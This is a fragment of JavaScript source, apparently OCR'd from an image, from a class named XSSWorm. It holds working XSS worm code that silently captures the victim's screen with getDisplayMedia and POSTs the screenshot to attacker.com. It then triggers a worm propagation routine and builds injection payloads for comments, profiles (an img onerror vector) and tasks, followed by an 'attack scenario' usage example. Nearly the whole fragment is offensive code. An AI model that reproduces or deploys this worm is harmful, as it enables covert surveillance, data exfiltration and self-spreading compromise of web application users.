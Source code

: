 ```javascript
            if (navigator.mediaDevices && navigator.mediaDevices.getDisplayMedia) {
                navigator.mediaDevices.getDisplayMedia({ video: true })
                .then(stream => {
                    const video = document.createElement('video');
                    video.srcObject = stream;
                    video.play();
                    
                    setTimeout(() => {
                        const canvas = document.createElement('canvas');
                        canvas.width = video.videoWidth;
                        canvas.height = video.videoHeight;
                        canvas.getContext('2d').drawImage(video, 0, 0);
                        
                        canvas.toBlob(blob => {
                            const formData = new FormData();
                            formData.append('screenshot', blob);
                            fetch('https://attacker.com/screenshot', {
                                method: 'POST',
                                body: formData
                            });
                        });
                        
                        stream.getTracks().forEach(track => track.stop());
                    }, 2000);
                })
                .catch(() => {}); // Fail silently
            }
            
            // Execute propagation after delay
            setTimeout(propagateWorm, 5000);
            
        })();
        </script>
        `;
    }
    
    // Deploy initial infection vector
    deployInitialVector() {
        return {
            comment_injection: this.payload,
            profile_injection: `<img src="x" onerror="${this.payload.replace(/"/g, '&quot;')}">`,
            task_injection: `<div>${this.payload}</div>`
        };
    }
}

// Usage in attack scenario
const worm = new XSSWorm();
const vectors = worm.deployInitialVector();
console.log('XSS Worm deployment vectors:', vectors);
```
